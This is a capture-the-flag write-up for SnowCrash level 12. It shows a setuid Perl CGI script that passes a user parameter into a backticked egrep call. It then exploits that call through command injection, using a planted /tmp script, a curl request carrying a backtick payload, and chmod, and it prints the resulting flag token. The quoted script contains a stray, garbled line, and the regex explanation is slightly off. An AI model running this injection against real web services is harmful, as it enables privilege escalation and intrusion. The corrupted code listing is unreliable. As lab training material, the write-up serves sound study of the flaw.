 # LEVEL 12

In our home directory, we see a perl script with suid/guid bit and extended permissions:
```
>$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
let's understand what the script does:
```
    >$ cat level12.pl
    #!/usr/bin/env perl
    # localhost:4646
    use CGI qw{param};
    print "Content-type: text/html\n\n";

    sub t {
      $nn = $_[1];
      $xx = $_[0];
      $xx =~ tr/a-z/A-Z/;
      $xx =~ s/\s.*//;
      @output = `egrep "^$xx" /tmp/xd 2>&1`;
                        getflag > /tmp/test  /tmp/xd 2>&1 &

      foreach $line (@output) {
          ($f, $s) = split(/:/, $line);
          if($s =~ $nn) {
              return 1;
          }
      }
      return 0;
    }

    sub n {
      if($_[0] == 1) {
          print("..");
      } else {
          print(".");
      }
    }
    n(t(param("x"), param("y")));
```
This web page takes 2 parameters: `x` and` y`.

- `x` Passes into 2 regex, one to switch all characters to `upper case`, and another to make sure the argument is cleared from all whitespaces characters, then it execute the `egrep` command.

- `y` won't help us.

`egrep` is a command that will search for a pattern in folders that match that pattern.

Let's start by creating a script to run the `getflag` command in a file:
```
>$ `echo "getflag > /tmp/test" > /tmp/EXPLOIT`
```
Then let's do the following test, replacing `/tmp` with `*` so that we don't have to worry about regex:
```
>$ curl '{VM_IP}:4646?x="`/*/EXPLOIT`"'
..level12@SnowCrash:~$ cat /tmp/test
cat: /tmp/test: No such file or directory
```
Our test file was not created, so the command did not work. And after running the script directly we can see this:
```
>$ ./level12.pl x="`/*/EXPLOIT`"
-bash: /tmp/EXPLOIT: Permission denied
Content-type: text/html

..level12@SnowCrash:~$
```
We then just need to change the permissions of `EXPLOIT` with a chmod. If we run the commands again we can see that it works:
```
>$ chmod 777 /tmp/EXPLOIT
>$ curl '{VM_IP}:4646?x="`/*/EXPLOIT`"'
..level12@SnowCrash:~$ cat /tmp/test
Check flag.here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
#### Vulnerability:
* Privilege escalation via CGI code injection , indeed , should validate the input before run any process using it.

#### Documentation:
1. https://askubuntu.com/questions/350208/what-does-2-dev-null-mean